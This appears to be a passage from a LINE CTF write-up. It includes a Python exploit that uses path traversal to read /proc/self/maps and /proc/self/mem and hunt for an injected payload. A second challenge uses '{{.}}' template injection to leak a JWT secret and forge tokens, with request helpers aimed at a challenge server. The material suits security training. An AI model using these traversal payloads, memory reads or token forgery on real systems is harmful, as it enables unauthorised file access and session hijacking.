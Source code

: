 ```python
        
        data = read_file("../../../../../proc/self/mem",str(pos),str(pos_end))
        if 'THISISPAYLOAD<' in data:
            #return (pos + data.find("THISISPAYLOAD<script>")+458 ,pos+data.find("</script>THISISPAYLOAD")+458)
            return pos,pos_end
        
        if pos_end == end:
            return False
        pos += (1024 * 256)
        pos_end = pos + (1024 * 256)

def egghunt_loop():
    maps = read_file("../../../../../proc/self/maps").rstrip("\x00")
    lines = maps.split("\n")
    lines = [i.strip() for i in lines]
    lines = [i.split(" ") for i in lines]
    lines.pop() #remove last empty line
    lines = [[*i[0].split("-"),*i[1]] for i in lines]
    for mem in lines:
        if not (mem[2] == 'r' and mem[3] == 'w'):
            continue
        result = egghunt(int(mem[0],16),int(mem[1],16))
        if result is not False:
            return result
def main():
    for i in range(5):
        insert(payload)
    pos = egghunt_loop()
    print(pos)
    exp =  "/..%2F..%2F..%2F..%2F..%2Fproc%2Fself%2Fmem/"+str(pos[0])+"/"+str(pos[1])
    print(exp)

main()

#LINECTF{705db4df0537ed5e7f8b6a2044c4b5839f4ebfa4}
```


### gotm
modify the source code.
![](https://i.imgur.com/gPIuEMe.png)
register with id ``{{.}}`` get remote secret_key is `fasdf972u1031xu90zm10Av` and write it into Dockerfile.

pack docker image and run docker locally to forge jwt token. my docker is running on `http://192.168.222.11:11000`
```python
import requests

SERVER="http://34.146.226.125"
def register(username,password="514",server=SERVER):
    resp = requests.post(server+"/regist",data={"id":username,"pw":password})
    return 'true' in resp.text

def login(username,password="514",server=SERVER):
    resp = requests.post(server+"/auth",data={"id":username,"pw":password})
    return resp.json()['token']

def with_token(token,server=SERVER):
    resp = requests.post(server+"/",headers={"X-Token":token})
    return resp

```